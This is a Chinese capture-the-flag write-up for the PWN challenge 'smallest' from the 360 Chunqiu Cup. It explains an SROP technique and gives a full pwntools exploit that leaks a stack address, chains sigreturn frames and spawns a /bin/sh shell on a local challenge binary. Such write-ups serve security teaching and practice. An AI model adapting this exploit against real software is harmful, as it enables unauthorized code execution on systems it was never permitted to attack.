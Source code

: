 ```yaml
---
title: 360春秋杯 smallest
description: 360春秋杯 smallest-writeup
date: 2021-07-13 15:07:56
categories:
 - PWN
tags:
---
```




# 360春秋杯 smallest

## 分析

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625995498631-fa75a668-b4c8-4b12-bbdc-ad8e502fb721.png)

程序就简单的几句汇编，这里就是调用read函数，64位的read系统调用号为0，这里xor将rax设为了0，实际上这几行汇编代码就是调用了read(0, $rsp, 0x400)，向栈顶写入0x400个字节数据，这题可以用SROP去做。

## EXP

exp参考了yichen的博客https://www.yuque.com/hxfqg9/bin/erh0l7#cS7rH

首先是泄露栈的地址，写入/bin/sh，但是如何调用write函数呢，这里很巧妙，首先向栈中写入3个start_addr，就是read的地址，因为是写在栈顶的，其实就是返回地址。

```python
start_addr = 0x4000B0
payload  = p64(start_addr) * 3
p.sendline(payload)
p.send('\xb3')
stack_addr = u64(p.recv()[8:16])
log.success('stack_addr:'+ hex(stack_addr))
```

那么第一个read返回之后，又调用一次read，我们发送一字节\xb3，将第二个0x4000B0最后一位改了，改成0x4000B3，也就跳过了xor rax, rax，防止rax置零，而且因为我们调用了read并发送了一字节数据，read会返回读取的字节数到rax，那么rax此时变成了1，这样我们就可以调用write函数了。然后我们接收后8个字节的数据，因为前8个是0x4000B0，后面8字节才是栈地址。

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625996578171-44c72b4c-9762-454c-99e2-657e32b2da2f.png)  write之后       ![img](https://cdn.nlark.com/yuque/0/2021/png/21979441/1626150142044-ebc2ad47-97be-4f8e-9afc-330b729d6b70.png)

然后我们可以通过SROP去构造了，将read的栈迁移到上面我们接收到的栈地址，这样就不用计算偏移了，并通过发送15个字节将rax改成15调用Sigreturn，来恢复我们构造好的read。

```python
read = SigreturnFrame()
read.rax = constants.SYS_read
read.rdi = 0
read.rsi = stack_addr
read.rdx = 0x400
read.rsp = stack_addr
read.rip = syscall_ret

read_frame_payload = p64(start_addr) + p64(syscall_ret) + str(read)
p.send(read_frame_payload)
p.send(read_frame_payload[8:8+15])
```

然后构造好execve的frame，我们可以打印出execve的frame有多长，发现是0x108的长度，那么将/bin/sh写入stack_addr+0x108的位置，然后同样向read输入15个字节调用Sigreturn恢复frame从而调用execve

```python
execve = SigreturnFrame()
execve.rax = constants.SYS_execve
execve.rdi = stack_addr + 0x108
execve.rsi = 0x0
execve.rdx = 0x0
execve.rip = syscall_ret
execve_frame_payload = p64(start_addr) + p64(syscall_ret) + str(execve)
log.success('length:' + str(len(execve_frame_payload)))
execve_frame_payload_all = execve_frame_payload  + '/bin/sh\x00'
p.send(execve_frame_payload_all)
p.send(execve_frame_payload_all[8:8+15])
```

完整的EXP：

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

p = process('smallest')

start_addr = 0x4000B0
syscall_ret = 0x4000BE

payload  = p64(start_addr) * 3

p.sendline(payload)
p.send('\xb3')
stack_addr = u64(p.recv()[8:16])
log.success('stack_addr:'+ hex(stack_addr))

read = SigreturnFrame()
read.rax = constants.SYS_read
read.rdi = 0
read.rsi = stack_addr
read.rdx = 0x400
read.rsp = stack_addr
read.rip = syscall_ret

read_frame_payload = p64(start_addr) + p64(syscall_ret) + str(read)
p.send(read_frame_payload)
p.send(read_frame_payload[8:8+15])

execve = SigreturnFrame()
execve.rax = constants.SYS_execve
execve.rdi = stack_addr + 0x108
execve.rsi = 0x0
execve.rdx = 0x0
execve.rip = syscall_ret
execve_frame_payload = p64(start_addr) + p64(syscall_ret) + str(execve)
log.success('length:' + str(len(execve_frame_payload)))
execve_frame_payload_all = execve_frame_payload  + '/bin/sh\x00'
p.send(execve_frame_payload_all)
p.send(execve_frame_payload_all[8:8+15])

p.interactive()
```